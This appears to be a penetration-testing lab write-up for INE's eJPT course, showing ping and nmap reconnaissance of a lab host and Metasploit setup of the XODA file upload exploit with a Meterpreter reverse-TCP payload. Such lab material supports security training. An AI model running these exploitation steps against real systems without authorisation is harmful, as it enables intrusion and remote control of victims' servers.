 ```jsx
Lab Name: T1046 : Network Service Scanning
Platform: INE
Lab No: 24
Exam: eJPT (Jr. Penetartion Tester)
```

## Pinging:

```console
┌──(root㉿INE)-[~]
└─# ping -c 4 demo1.ine.local
PING demo1.ine.local (192.119.99.3) 56(84) bytes of data.
64 bytes from demo1.ine.local (192.119.99.3): icmp_seq=1 ttl=64 time=0.327 ms
64 bytes from demo1.ine.local (192.119.99.3): icmp_seq=2 ttl=64 time=0.067 ms
64 bytes from demo1.ine.local (192.119.99.3): icmp_seq=3 ttl=64 time=0.070 ms
64 bytes from demo1.ine.local (192.119.99.3): icmp_seq=4 ttl=64 time=0.067 ms

--- demo1.ine.local ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3090ms
rtt min/avg/max/mdev = 0.067/0.132/0.327/0.112 ms
```

## NMAP Scan:

```console
┌──(root㉿INE)-[~]
└─# nmap demo1.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 15:37 IST
Nmap scan report for demo1.ine.local (192.119.99.3)
Host is up (0.000021s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:C0:77:63:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

## Exploitation:

```console
┌──(root㉿INE)-[~]
└─# msfconsole -q
msf6 > search xoda_file_upload

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/xoda_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/xoda_file_upload) > set RHOST demo1.ine.local
RHOST => demo1.ine.local
msf6 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/xoda_file_upload) > set LHOST 192.119.99.2
LHOST => 192.119.99.2
msf6 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     demo1.ine.local  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.119.99.2     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5



View the full module info with the info, or info -d command.
```

![image](https://github.com/user-attachments/assets/ce8364c6-4fb5-45d9-8c3a-5d40125842df)

![image](https://github.com/user-attachments/assets/f7f25d9c-d246-4995-9c66-4c15add12624)

![image](https://github.com/user-attachments/assets/2c80e8bf-caa7-4cf5-ad9a-db47527deaa6)

![image](https://github.com/user-attachments/assets/6e242b0d-9b07-41ed-8351-48590bdfee92)

![image](https://github.com/user-attachments/assets/f61fd7ef-0be9-4b73-a2b8-a9c9f6bafe81)

![image](https://github.com/user-attachments/assets/f6439f59-c85c-4964-9570-5bf083cddb43)

![image](https://github.com/user-attachments/assets/58bdba7c-a8ac-4032-b5e0-71e5dc095884)

![image](https://github.com/user-attachments/assets/1d9a89b8-5954-4196-8ac5-5fdd594ef363)
